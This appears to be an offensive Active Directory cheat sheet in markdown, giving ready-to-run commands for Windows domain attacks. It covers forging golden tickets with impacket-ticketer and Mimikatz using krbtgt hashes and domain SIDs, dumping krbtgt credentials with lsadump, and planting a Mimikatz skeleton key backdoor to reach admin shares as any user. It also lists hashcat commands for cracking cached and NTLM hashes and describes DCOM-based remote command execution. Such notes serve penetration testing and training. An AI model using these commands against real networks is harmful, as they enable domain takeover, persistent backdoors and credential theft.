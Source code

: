 #### remote golden ticket

`impacket-ticketer -domain scorp.com  -domain-sid S-1-5-21-3896762001-1128619745-3071798364 -nthash e1c6184fa33e8450fbd726c147ae0e19 -duration 7 -dc-ip 192.168.219.154 berta_moses`

#### Mimikatz Golden Ticket

1. Dump SID and hash and inject it into memmory

`lsadump::lsa /inject /name:krbtgt`

Or if localy loggeon to DC

`lsadump::lsa /patch`

2. Create golden Ticket

```powershell

kerberos::golden /user:admin /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884111 /krbtgt:e460605a9dbd55097c6cf77af2f89a03 /ptt

```

## Sekeleton key

It backdoors AD with a key implanted in DC memmory: mimikatz

`misc::skeleton`

for example access share using skeleton key

`net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`

Access anything without knowing the user

`dir \\Desktop-1\c$ /user:Machine1 mimikatz`


## Hash cracking


* MsCacheV2

`hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85fxxx' /usr/share/wordlists/rockyou.txt --force --potfile-disable`

* NTLM

`hashcat -m 1000 admin.hashfile  /usr/share/wordlists/rockyou.txt`

* NTLMv2

`hashcat -m 5600 hash.txt passwords.txt`

## Distributed Component Object Model

The MMC Application Class allows the creation of Application Objects, which expose the ExecuteShellCommand method under the `Document.ActiveView` property. This method allows execution of any shell command as long as the authenticated user is authorized to do so.

